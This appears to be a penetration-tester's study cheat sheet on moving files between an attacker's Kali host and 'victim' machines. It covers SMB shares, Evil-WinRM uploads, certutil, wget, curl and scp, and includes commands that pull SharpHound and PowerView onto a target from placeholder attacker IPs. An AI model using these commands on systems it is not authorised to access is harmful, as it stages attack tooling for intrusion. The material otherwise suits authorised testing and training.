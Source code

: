 ```yaml
---
description: >-
  This took lots of time for me to compile and understand. However, through
  applying the "try harder" mentality, this concept has made me gain more
  confidence in my competence.
cover: https://media3.giphy.com/media/xTiTnjZAjQipGn9JFS/200.gif
coverY: 0
---
```


# 📤 File Transfer

## Windows->Linux Methods

### SMB Server

On Kali:

```
impacket-smbserver smb .
```

On Windows:

```
net use \\<kali-ip>\smb

copy \\<kali-ip>\smb\SharpHound.exe .

dir

SharpHound.exe
```

* Be sure to open up the file through the file manager on Linux (GUI)
* This makes things easier

### Evil-WinRM

```
# Download to your Kali:
Evil-WinRM download /file/name/here

# Upload a file to the Windows victim from Kali
Evil-WinRM upload /file/name/here
```

## Linux->Windows

### Certutil

On Kali:

```
python3 -m http.server
```

On Windows:

```
certutil -urlcache -f http://<kali_ip_here:8000>/name_of_file name_of_file
```

### Evil-WinRM

```
Evil-WinRM: PS C:\programdata> upload /../../../PowerView.ps1
```

## Linux->Linux

### Wget

On Kali:

```
python3 -m http.server
```

On Victim:

```
wget http://<tun0_ip_here>:8000/<file_name_here> <file_name_here>
```

### Curl

On Kali:

```
python3 -m http.server
```

On Victim:

```
curl http://<tun0_ip_here:8000/<file_name_here> <file_name_here>
```

## SCP

* Is SSH open?
* SSH Creds or Key
* Identify path of file you want with <mark style="color:red;">`pwd`</mark>

Copying a file from a remote system to yours:

```
scp user@10.10.10.1:C:/ftp/infrastructure .
password:

Infrastructure.pdf                                                     100%   45KB 240.7KB/s   00:00    

```

Transfering a file from your system to a remote system:

```
scp root@10.10.10.1 -i ~/.ssh/id_rsa wordlist.txt /root/wordlists
```



## References

{% embed url="https://0xdf.gitlab.io/2018/10/11/pwk-notes-post-exploitation-windows-file-transfers.html" %}

